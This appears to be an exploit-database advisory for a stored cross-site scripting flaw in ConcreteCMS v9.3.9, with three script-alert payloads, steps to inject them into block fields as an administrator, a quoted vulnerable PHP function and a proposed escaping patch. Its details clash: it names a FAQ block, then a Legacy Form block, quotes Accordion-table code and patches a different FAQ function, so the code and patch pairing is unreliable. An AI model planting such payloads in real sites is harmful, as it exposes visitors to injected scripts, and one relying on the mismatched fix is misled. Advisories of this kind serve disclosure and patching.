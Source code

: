 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Navigation field、Title Text field、Description source field when adding a FAQ block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Navigation Link Text');</script>
<script>alert('Title Text');</script>
<script>alert('Description');</script>
```
1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the Legacy Form block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Navigation Link Text field、Title Text、Description(source) and then click save,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        parent::save($args);

        /** @var Connection $db */
        $db = $this->app->make(Connection::class);
        $db->executeStatement('DELETE FROM btAccordionEntries WHERE bID = ?', [$this->bID]);
        $entries = $this->processJson($args);

        if ($entries) {
            $sortOrder = 0;
            foreach ($entries as $entry) {
                // Add the entry row
                if (isset($entry['description'])) {
                    $entry['description'] = LinkAbstractor::translateTo($entry['description']);
                }
                $db->executeStatement(
                    'INSERT INTO btAccordionEntries (bID, sortOrder, title, description) VALUES (?, ?, ?, ?)',
                    [(int)$this->bID, $sortOrder++, $entry['title'], $entry['description']]
                );
            }
        }
```

Patch:
```php
public function save($args)
{
    $db = $this->app->make('database')->connection();
    $db->executeQuery('DELETE FROM btFaqEntries WHERE bID = ?', [$this->bID]);
    parent::save($args);
    $count = isset($args['sortOrder']) ? count($args['sortOrder']) : 0;

    $i = 0;
    while ($i < $count) {
        // patch XSS
        if (isset($args['description'][$i])) {
            $args['description'][$i] = LinkAbstractor::translateTo($args['description'][$i]);
            // patch XSS
            $args['description'][$i] = h($args['description'][$i]);
        }

        if (isset($args['title'][$i])) {
            $args['title'][$i] = h($args['title'][$i]); // patch XSS
        }
        if (isset($args['linkTitle'][$i])) {
            $args['linkTitle'][$i] = h($args['linkTitle'][$i]); // patch XSS
        }

        $db->executeQuery(
            'INSERT INTO btFaqEntries (bID, title, linkTitle, description, sortOrder) VALUES(?,?,?,?,?)',
            [
                $this->bID,
                $args['title'][$i],
                $args['linkTitle'][$i],
                $args['description'][$i],
                $args['sortOrder'][$i],
            ]
        );
        ++$i;
    }
}

```